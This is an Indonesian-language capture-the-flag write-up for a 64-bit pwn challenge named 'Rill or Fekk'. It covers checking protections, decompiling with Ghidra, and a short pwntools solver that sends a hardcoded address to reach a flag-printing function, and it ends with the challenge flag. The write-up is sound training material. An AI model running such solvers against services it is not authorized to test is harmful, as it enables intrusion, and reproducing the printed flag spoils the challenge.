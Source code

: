 # Rill or Fekk
## SOLUTION:

1. Diberikan sebuah file binary dengan arsitektur 64 bit - not stripped.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/3b543e2d-0021-4eec-9c90-d38dd7458159)

2. Langsung saja kita cek proteksi yang di apply pada binary file.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/40a8c7cc-8610-4e3e-92b8-59791202131f)


3. Surprisingly tidak diberikan proteksi apapun pada binary, langsung saja kita decompile file binary untuk mengidentifikasi kerentanan. Disini saya menggunakan decompiler bernama Ghidra.

> Fungsi main()

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/69284393-92c6-4a89-b071-564dca86cac8)


4. Pada fungsi `main()` nampaknya terdapat hardcoded values yang dapat kita gunakan untuk membuka fungsi `secretzz()`, yang dimana isi dari fungsi tersebut sepertinya akan menampilkan flag di remote server.

> Fungsi secretzz()

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/a5415304-de54-431d-888a-a1041660a787)


5. Mengetahui hal ini, langsung saja kita jalankan solver berikut:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './Chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

padding = 64

p = flat([
    b'4199254' # decimal representation of 0x401356
])

sh.sendlineafter(b':', p)
sh.interactive()
```

> RESULT

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/8531464a-a644-4642-8491-953682a740fc)


## FLAG : ForestyHC{eyyoo_u_ar3nt_supp0ssd_t0_b3_h3re_subm1t_th1zz_and_g0_aw4yy_a4xc0d}
